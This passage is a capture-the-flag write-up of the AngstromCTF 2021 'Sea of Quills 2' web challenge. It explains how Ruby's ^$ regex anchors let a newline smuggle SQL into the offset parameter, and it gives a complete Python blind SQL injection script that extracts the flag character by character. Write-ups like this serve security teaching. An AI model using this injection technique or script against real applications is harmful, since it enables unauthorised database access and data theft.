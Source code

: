 Basically, two more checks were added: `cols` cannot contain `flag` and it cannot be longer than 24 chars. Hmm, interesting ... 
I spent a lot of time crawling SQLite's documentation in search of some exotic internal function in order to bypass the `flag` in `cols` constraint. Ah yeah, and it has to be short enough to fit `* from {encoded_flag_table_name} union select *` in 24 chars. After spending some good hours on it, I desperately started to doubt about all the checks that were applied on my input. I was naïve enough to consider that `!/^[0-9]+$/.match?(off)` as bulletproof... unless I stumbled upon [this stackoverflow post](https://stackoverflow.com/questions/577653/difference-between-a-z-and-in-ruby-regular-expressions). As I'm not very much of a ruby fan, I didn't know it uses `\A\z` in regex'es to match the whole string and by using `/^$/` it only matches until it encounters an whitespace character.
![facepalm](/assets/img/AngstromCTF_2021/web_3.webp)
With all that said, we can bypass the regex of `lim` and `off` by inserting a number followed by a newline and our payload. My final solution was to use blind SQLi to grab the flag character by character. There are more practical solutions where you can grab the entire flag in one shot but yeah, if you're brave enough to wait for a blind SQLi on a 30+ long flag, take a coffe and see the flag coming in one char at a time.

```python
#!/usr/bin/python
import requests
import urllib3
import string

index = 6
flag = 'actf{'
while 1:
    for char in '_' + string.ascii_letters + string.digits + '}':
        print("[+] Trying {}{}".format(flag, char))
        data = {
            "cols" : "desc" ,
            "limit" : "1",
            "offset" : "0\n or (select case when substr(flag,{},1)='{}' THEN 1 ELSE 0 END from flagtable)".format(index, char)
        }
        r = requests.post("https://seaofquills-two.2021.chall.actf.co/quills", data=data, verify=False)
        r = r.text
        if "it's very special" in r:
            print("[+] Found char: {}".format(char))
            flag += char
            if char == '}':
                print("[+] FLAG: {}".format(flag))
                exit()
            index += 1
```